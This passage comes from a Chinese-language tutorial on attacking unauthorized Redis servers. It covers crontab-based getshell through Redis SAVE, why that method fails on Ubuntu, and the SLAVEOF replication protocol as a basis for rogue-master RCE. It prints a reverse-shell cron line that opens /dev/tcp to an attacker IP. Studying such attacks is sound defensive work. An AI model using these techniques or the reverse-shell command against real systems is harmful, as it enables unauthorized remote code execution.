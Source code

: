 ```
$ save
```

思路是很好，通过更改备份目录和文件名，以写数据备份到`/var/spoof/cron/crontabs/root`中，完成写入定时项目。但是实际在Ubuntu测试中存在两个问题：
1. crontab写入的root文件的权限必须为600，也就是`rw-------`，否则会出现`cron[53948]: (root) INSECURE MODE (mode 0600 expected)`。但是redis通过save保存的dbfile为644.
2. Ubuntu cron对于dbfile上下冗余数据容错不高，且我们写入的命令必被定位于文件中段，形似：
```
REDIS0009ú      redis-ver^E5.0.7ú
redis-bitsÀ@ú^EctimeÂÜ)^H_ú^Hused-memÂP^X^M^@ú^Laof-preambleÀ^@þ^@û^A^@^@À^A9
* * * * * /bin/bash -i >& /dev/tcp/10.0.4.162/9999 0>&1
ÿ^Lþô<8e>S¨·¶
```
导致cron出现报错：`bad minute; while reading crontab for user root` `ERROR (Syntax error, this crontab file will be ignored)`。

以上原因导致就算我们遇见一台未授权Redis，且以root身份运行，我们可能也无法成功Getshell。（CentOS相比Ubuntu容错更高）


## SLAVEOF解析
Redis主从命令为`SLAVEOF` (但由于美国黑人运动的影响，将在后续版本使用`REPLICAOF`，本文暂且沿用`SLAVEOF`)，从该命令的两个名字来看，不难理解主从功能实质上就是复制(Replication)，使该Redis服务器变为另一指定IP和PORT的Redis服务器的复制。
`SLAVEOF HOST PORT`为命令基本用法，相关注意事项如下：
* 一台处于Slave状态的服务器，我们可以通过`SLAVEOF HOST PORT`使其重新选择一台Master作为其复制的来源。
* 我们可以通过使用`SLAVEOF NO ONE`来让一台处于Slave状态的服务器停止复制行为，重新作为一台独立的Master服务器。可见SLAVEOF命令初衷是作热灾备使用的。

当然，我们更应该关注master向slave发送该命令后，它们之间发生了怎样的通信？了解了这些后我们就能轻易构造攻击。方便起见，我先把主从攻击中发生的通讯流程放上来，一条条分析：
![slave-process](./slave-process.png)
1. `PING`命令用于测试某个连接是否存活，slave服务器会利用此命令来在发送同步信息前不停检测master是否存活，得到`+PONG`后开始进行下一步。
2. `REPLCONF`命令从[Redis源码replication.c](https://download.redis.io/redis-stable/src/replication.c)的注释中可以得知其用途: 
> This command is used by a slave in order to configure the replication process before starting it with the SYNC command.
> Currently the only use of this command is to communicate to the master what is the listening port of the Slave redis instance, so that the master can accurately list slaves and their listening ports in the INFO output.
> In the future the same command can be used in order to configure the replication to initiate an incremental replication instead of a full resync.

简单来说，它被用于在主从同步之前，slave先通过该命令交换自己的listening port等信息给master。master只要一直回复`+OK`直到下一命令出现即可。

3. `PSYNC <replid>`命令由官方文档[PSYNC-Redis](https://redis.io/commands/psync)可知，其用于向master请求生成一串replication stream以尝试部分同步数据(PSYNC = partial resynchronizations)。其参数为replication id，它是40字节的伪随机字符串，用于标记某一数据库，便于master判断slave与其当前存储的数据的差别，从而该从哪个偏移量复制起，或者完全重新复制。当然replication id标记数据也便于恢复。详见[Redis Replication文档](https://redis.io/topics/replication)，文档略长，适当学习即可。(部分文章提到的`SYNC`命令已在新版本被`PSYNC`取代，因为它不支持部分同步)
4. `+FULLRESYNC <replid> <offset>`命令用于在master通过slave replid判断需要完全重新同步(FULLRESYNC = full resynchronization)后，通过该命令发送一串stream用来**完全覆盖slave当前的dbfile！**这点非常关键，说明我们通过该命令攻击将不用受到上文crontab getshell中一样遭受冗余字符对攻击的干扰 (当然也可通过slaveof改进上文crontab getshell攻击方法，读者可以自行验证在Ubuntu上的可行性)。其中`<replid>`使用任意40位的字符串即可，<offset>设为1，表示从dbfile开头开始覆盖，最后通过CRLF作分割，跟上覆盖的字符串长度和内容即可。


## 主从攻击思路与实现
`LC⚡️BC`的主从攻击在写入Payload方面与我们上文所讲的Getshell类似，通过更改数据备份文件名，然后控制写入内容，最后Redis/OS相关服务读取该文件达到RCE的目的。为了便于简单的验证，我们假设RCE场景为：
* 目标服务器可与恶意服务器可双向通讯。
* 目标服务器上某端口开启Redis 4.x/5.x服务，可直接访问，且未授权/已知auth key。
* 对目标服务器Redis数据结构和其它信息均零了解。
